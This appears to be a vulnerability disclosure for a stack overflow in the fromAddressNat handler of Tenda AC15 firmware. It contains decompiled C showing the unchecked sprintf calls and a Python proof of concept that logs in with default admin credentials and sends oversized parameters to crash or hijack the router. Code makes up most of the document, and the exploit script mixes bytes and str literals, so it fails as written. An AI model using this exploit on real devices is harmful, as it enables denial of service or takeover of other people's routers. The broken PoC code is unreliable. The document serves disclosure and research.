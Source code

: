 ## Tenda AC15 stack overflow vulnerability

### * Version

V15.03.05.19 (US_AC15V1.0BR_V15.03.05.19_multi_TD01.bin)

### * Firmware
[https://www.tenda.com.cn/download/detail-2680.html](https://www.tenda.com.cn/download/detail-2680.html)




### * Vulnerability Detail

In function fromAddressNat, the content obtained by the program from the parameter "entrys", "mitInterface" and  "page" are passed to local_14, local_18 and local_1c, 
and then the local_14 and  local_18 are directly copied into the acStack796 stack through the sprintf function. The local_1c os copied into the acStack284 stack through the sprintf function.
There is no size check, so there is a stack overflow vulnerability. The attacker can easily perform a Deny of Service Attack or Remote Code Execution with carefully crafted overflow data.


```c
void fromAddressNat(undefined4 param_1)

{
  int iVar1;
  char acStack1052 [256];
  char acStack796 [512];
  char acStack284 [256];
  undefined4 local_1c;
  undefined4 local_18;
  undefined4 local_14;
  
  memset(acStack1052,0,0x100);
  local_14 = FUN_0002ba8c(param_1,"entrys",&DAT_000e5d48);
  local_18 = FUN_0002ba8c(param_1,"mitInterface",&DAT_000e5d48);
  sprintf(acStack796,"%s;%s",local_14,local_18);  // overflow here
  FUN_0004ec58("adv.addrnat",acStack796,0x7e);
  local_1c = FUN_0002ba8c(param_1,"page",&DAT_000e5f4c);
  sprintf(acStack284,"advance/addressNatList.asp?page=%s",local_1c);  //overflow here
  iVar1 = CommitCfm();
  if (iVar1 != 0) {
    sprintf(acStack1052,"advance_type=%d",7);
    send_msg_to_netctrl(5,acStack1052);
  }
  FUN_0002be4c(param_1,acStack284);
  return;
}
```

### * POC
```python
import requests


cmd  = b'entrys=' + b'A' * 400 + '&mitInterface='
cmd += b'A'* 0x400 + '&page=' + 'A' * 200


url = b"http://192.168.2.2/login/Auth"
payload = b"http://192.168.2.2/goform/addressNat/?" + cmd

data = {
    "username": "admin",
    "password": "admin",
}

def attack():
    s = requests.session()
    resp = s.post(url=url, data=data)
    print(resp.content)
    resp = s.post(url=payload, data=data)
    print(resp.content)

attack()

```
